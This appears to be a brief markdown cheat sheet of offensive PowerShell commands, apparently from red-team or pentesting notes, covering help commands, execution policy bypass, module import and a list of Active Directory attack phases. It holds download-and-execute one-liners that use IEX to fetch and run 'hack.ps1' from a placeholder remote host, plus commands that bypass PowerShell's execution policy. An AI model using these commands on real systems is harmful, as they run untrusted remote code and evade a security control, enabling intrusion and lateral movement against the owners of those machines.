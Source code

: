 ## Powershell  basic help commands

`Get-Help`

`Get-Help process`

## Powershell Execution Policy bypass

`powershell -ExecutionPolicy bypass`

`powershell -c <cmd>`

`powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"`

## Powershell importing module / scripts

`Import-Module <module_path`

listing commands in the module

`Get-Command -Module <modulename>`

## Download and execute

`IEX (New-Object Net.WebClient).DownloadString ('http://ip/hack.ps1')`

`IEX (iwr 'http://ip/hack.ps1')`

Recon 
Domain Enum 
Local priv 
Admin Recon 
Lateral Movement (while being persistant) 
Domain 
Admin priv 
Cross Trust Attacks